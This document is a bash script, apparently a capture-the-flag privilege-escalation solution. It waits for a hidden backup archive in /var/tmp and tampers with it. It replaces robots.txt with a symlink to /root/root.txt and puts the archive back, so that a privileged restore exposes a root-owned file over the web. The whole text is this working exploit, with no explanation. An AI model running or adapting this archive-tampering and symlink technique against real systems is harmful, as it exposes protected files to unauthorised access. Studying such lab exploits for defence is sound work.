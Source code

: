     #!/bin/bash
    
    # work out of shm
    cd /dev/shm
    
    # set both start and cur equal to any backup file if it's there
    start=$(find /var/tmp -maxdepth 1 -type f -name ".*")
    cur=$(find /var/tmp -maxdepth 1 -type f -name ".*")
    
    # loop until there's a change in cur
    echo "Waiting for archive filename to change..."
    while [ "$start" == "$cur" -o "$cur" == "" ] ; do
        sleep 10;
        cur=$(find /var/tmp -maxdepth 1 -type f -name ".*");
    done
    
    # Grab a copy of the archive
    echo "File changed... copying here"
    cp $cur .
    
    # get filename
    fn=$(echo $cur | cut -d'/' -f4)
    
    # extract archive
    tar -zxf $fn
    
    # remove robots.txt and replace it with link to root.txt
    rm var/www/html/robots.txt
    ln -s /root/root.txt var/www/html/robots.txt
    
    # remove old archive
    rm $fn
    
    # create new archive
    tar czf $fn var
    
    # put it back, and clean up
    mv $fn $cur
    rm $fn
    rm -rf var
    